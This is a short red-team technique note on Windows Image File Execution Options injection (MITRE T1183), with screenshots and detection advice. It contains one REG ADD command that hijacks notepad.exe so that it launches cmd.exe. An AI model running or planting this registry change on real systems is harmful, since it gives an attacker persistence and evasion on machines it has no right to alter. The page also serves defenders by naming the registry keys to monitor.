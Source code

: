 ```yaml
---
layout: post
title: "t1183 image file execution options injection"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1183-image-file-execution-options-injection/
---
```


---
layout: post
title: "t1183 image file execution options injection"
date: 2024-06-18
categories: privilege-escalation
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1183-image-file-execution-options-injection/
---

---
description: 'Defense Evasion, Persistence, Privilege Escalation'
---

# Image File Execution Options Injection

## Execution

Modifying registry to set cmd.exe as notepad.exe debugger, so that when notepad.exe is executed, it will actually start cmd.exe:

{% code title="attacker@victim" %}
```csharp
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /d "cmd.exe"
```
{% endcode %}

Launching a notepad on the victim system:

![](../../.gitbook/assets/ifeo-notepad.png)

Same from the cmd shell:

![](../../.gitbook/assets/ifeo-notepad2.png)

## Observations

Monitoring command line arguments and events modifying registry keys: `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options/<executable>` and `HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<executable>` should be helpful in detecting this attack:

![](../../.gitbook/assets/ifeo-cmdline.png)

![](../../.gitbook/assets/ifeo-cmdline2.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1183" %}

{% embed url="https://blogs.msdn.microsoft.com/mithuns/2010/03/24/image-file-execution-options-ifeo/" %}

{% embed url="https://blogs.msdn.microsoft.com/reiley/2011/07/29/a-debugging-approach-to-ifeo/" %}

@spotheplanet
